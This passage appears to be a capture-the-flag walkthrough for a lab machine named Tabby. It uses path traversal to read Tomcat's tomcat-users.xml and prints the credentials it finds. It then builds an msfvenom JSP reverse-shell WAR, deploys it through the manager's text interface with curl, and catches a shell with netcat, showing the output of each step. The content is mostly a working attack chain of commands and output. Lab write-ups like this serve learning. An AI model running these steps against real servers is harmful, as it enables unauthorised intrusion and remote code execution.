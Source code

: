 * file path is `/usr/share/tomcat9/etc/tomcat-users.xml`

	`http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml`
	
	  <role rolename="admin-gui"/>
	  <role rolename="manager-script"/>
	  <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
	  
#### creds
tomcat:$3cureP4s5w0rd123!

* but creds not worked for manager because the `username="tomcat"` user role is `roles="admin-gui"` not `roles="manager-gui"` which means I can’t access the manager webapp but can access to `host-manager` that found in default Tomcat page with `manager`

### host-manager

* using `tomcat:$3cureP4s5w0rd123!` login successful.
* there is __noting__ and can't upload war file from here

### war file

* The tomcat user also have another role `roles="manager-script"`.

    * __manager-script__ is allow access to the text-based web service located at /manager/text.
    * that means user `tomcat` can access to `manager` in test based
    * that means i can still upload war file from text based manager
    
* form text based manager user tomcat can upload war file using `deploy` command, found in [doc](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely)

#### generate reverse shell war file
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=4141 -f war > shell.war`
```
Payload size: 13398 bytes
Final size of war file: 13398 bytes
Saved as: shell.war
```

#### upload `shell.war`
`curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'`
```
OK - Deployed application at context path [/shell]
```
### shell as tomcat

* start netcat and trigger `shell` file from `http://10.10.10.194:8080/shell/`

	`curl 10.10.10.194:8080/shell/`
	
	`nc -lnvp 4141`

	  listening on [any] 4141 ...
	  connect to [10.10.15.151] from (UNKNOWN) [10.10.10.194] 58040
	  id
	  uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
